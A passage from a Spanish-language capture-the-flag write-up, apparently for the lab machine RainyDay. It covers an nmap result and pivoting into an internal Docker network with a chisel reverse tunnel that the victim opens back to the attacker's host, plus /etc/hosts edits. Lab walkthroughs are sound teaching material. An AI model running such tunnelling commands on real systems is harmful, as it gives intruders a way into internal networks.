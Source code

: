 ```bash
80/tcp    open  http
49153/tcp open  unknown
49154/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 56.72 seconds
```

Aparte del *22* y el *80* que ya los conocíamos, vemos abiertos dos nuevos puertos: el *49153* y el *49154*. Lamentablemente, estos puertos **no exponen ningún servicio interesante**.

#### Port forwarding. Investigando dev.rainyday.htb.

Recordemos que **no** teníamos **acceso al subdominio desde el exterior** (utilizando la IP 10.10.11.184). Emplearemos [chisel](https://github.com/jpillora/chisel) para hacer *port forwarding* y tener conexión desde nuestro equipo de atacante a la **172.18.0.1:80**.

En mi máquina descargaré el *chisel* de 64 bits y lo ejecutaré de la siguiente manera:

![imagen 27](Pasted image 20230216000517.png)

En la máquina víctima, ejecutaremos el *chisel* con el siguiente comando:

```bash
/tmp $ ./chisel client 10.10.14.65:1234 R:8081:172.18.0.1:80
```

Haremos que nuestro *localhost* por el puerto **8081** exponga el servicio que está corriendo en la ip **172.18.0.1** por el puerto **80**. Finalmente, para que *http://rainyday.htb* y *http://dev.rainyday.htb* apunten a la *172.18.0.1:80*, deberemos modificar el */etc/hosts*:

![imagen 28](Pasted image 20230216003749.png)

Hemos modificado la línea `10.10.11.185 rainycloud.htb dev.rainycloud.htb` por `127.0.0.1 rainycloud.htb dev.rainycloud.htb`

Ahora ya **tendremos acceso al subdominio**, a través de la URL *http://dev.rainycloud.htb:8081*:

![imagen 29](Pasted image 20230216003948.png)

**Resumiendo acceso al subdominio**:

* Desde el exterior (IP *10.10.11.184*), *http://dev.rainyday.htb* es inaccesible.
* Desde el interior (IP *172.18.0.1*), h*ttp://dev.rainyday.htb* es accesible.
* Para tener acceso al puerto *80* de la IP *172.18.0.1* emplearemos *port forwarding*, para que nuestra IP *127.0.0.1:8081* apunte a la *172.18.0.1:80*.
* Modificamos */etc/hosts* para que, tanto *http://dev.rainyday.htb* como *http://rainyday.htb*, apunten a nuestra IP *127.0.0.1*, que a su vez apuntará a la *172.18.0.1*.

Parece la misma página web que *http://rainycloud.htb*. Ahora bien, recordemos que existía un *endpoint* de la **API**, llamado *healthcheck*, a través del cual podíamos obtener información de la página web en el supuesto de encontrarnos en la red interna:

![imagen 30](Pasted image 20230216005536.png)

Desde *http://dev.rainycloud.htb:8081*, sí que podremos acceder a su contenido:
